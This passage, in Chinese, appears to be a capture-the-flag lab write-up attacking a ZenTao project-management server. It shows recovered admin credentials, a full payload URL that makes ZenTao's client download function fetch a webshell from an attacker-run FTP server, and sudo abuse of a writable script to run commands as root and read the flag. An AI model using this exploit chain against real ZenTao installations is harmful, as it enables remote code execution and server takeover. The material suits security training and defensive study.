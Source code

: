 得到用户名：admin 密码：qazwsx123  
利用得到的账号密码成功登录至后台。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

右上角有提示

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

既然拿到后台权限那么我们开始GETSHELL吧！

开启一个FTP服务，这里使用python模块开启，命令：python -m pyftpdlib -d /root/ftp -p 21 注意提前在/root/ftp目录下存放webshell文件。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

如上图已经成功开启服务。  
FTP webshell地址为ftp://192.168.174.128/shell.php 然后将其地址进行base64加密。  
然后构建payload并进行访问：  
http://192.168.174.132/zentaopms/www/index.php?m=client&f=download&version=1&link=ZnRwOi8vMTkyLjE2OC4xNzQuMTI4L3NoZWxsLnBocA==  
显示保存成功。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

Webshell连接地址：http://192.168.174.132/data/client/1/shell.php

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

连接成功！  
查看shell权限为www-data

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

常规操作sudo -l看一下

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以看到可以无需密码以任何权限执行/var/www/html/zentaopms/www/tips.sh文件。  
我们来尝试在文件中写入whoami并执行试一下。发现没有这个文件？不要紧，我们可以自己创建一个然后chmod +x /var/www/html/zentaopms/www/tips.sh赋予执行权限。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

然后我们可以全局搜索一下flag相关的文件名。  
在文件中写入find / -name "*flag*"并执行。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

然后查看flag文件，在文件中写入cat /root/flag1.txt并执行。

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

得到第一个靶标！

  
